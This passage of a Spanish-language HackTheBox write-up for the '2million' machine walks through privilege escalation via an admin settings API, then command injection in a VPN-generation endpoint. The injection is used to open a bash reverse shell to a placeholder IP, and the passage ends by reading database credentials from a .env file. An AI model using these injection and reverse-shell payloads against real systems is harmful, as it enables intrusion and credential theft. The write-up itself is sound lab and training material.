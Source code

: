 ```shell
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie:PHPSESSID=d897e71qbsq1uhh8g116bvpb8t" -H "Content-Type:application/json" | jq
{
  "status": "danger",
  "message": "Missing parameter: email"
}
```

```shell
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie:PHPSESSID=d897e71qbsq1uhh8g116bvpb8t" -H "Content-Type:application/json" -d '{"email":"fer@fer.com"}' | jq
{
  "status": "danger",
  "message": "Missing parameter: is_admin"
}
```

```shell
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie:PHPSESSID=d897e71qbsq1uhh8g116bvpb8t" -H "Content-Type:application/json" -d '{"email":"fer@fer.com","is_admin":1}' | jq 
{
  "id": 13,
  "username": "fer",
  "is_admin": 1
}

```

Finalmente hemos obtneido que el ususario que hemos creado tenga los privilegios de ser admin.

Ahora podemos intenetar colar algun comando a la hora de generar la vpn para ello utilizamos el siguiente comando:
```shell
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie:PHPSESSID=d897e71qbsq1uhh8g116bvpb8t" -H "Content-Type: application/json" -d '{"username":"test;whoami;"}' 
```
Vemos como obtenemos el usuario actual `www-data` 

Por lo tanto vamos a intentar establecer una rever shell en unestro puerto 443
```shell
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie:PHPSESSID=d897e71qbsq1uhh8g116bvpb8t" -H "Content-Type: application/json" -d '{"username":"test;bash -c \"bash -i >& /dev/tcp/IP/443 0>&1\";"}' 
```

## Pivotar al usuario admin

Tras hacer el tratamiento de la terminal para que sea más intercativa y explorar los ficheros que tenemos vemos que existe un `Database.php` normalmente en este fichero estan incrustados los ususarios y las contraseñas sin embargo no encontramos nada relevante.es por ello que realizado el comando `ls -la`por si habia ficheros que estuvieran ocultos.

Encontramos un fichero `.env` que muestra un ususario y una contraseña:

```shell
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```
